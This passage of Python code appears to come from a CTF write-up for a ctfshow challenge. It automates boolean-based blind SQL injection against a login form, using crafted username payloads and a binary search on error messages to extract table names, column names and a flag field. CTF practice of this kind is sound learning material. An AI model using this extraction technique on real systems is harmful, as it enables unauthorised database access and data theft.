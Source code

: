 ```python
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return database
        database += chr(head)

# 查询所有表名
def getTable():
    payload = "0'or(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{})='1"
    i = 0
    table_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return table_name
        table_name += chr(head)

# 查询 ctfshow_fl0g 表中的所有列名
def getColumn():
    payload = "0'or(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))>{})='1"
    i = 0
    column_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return column_name
        column_name += chr(head)

# 查询字段中内容
def get_dump():
    payload = "0'or(ascii(substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))>{})='1"
```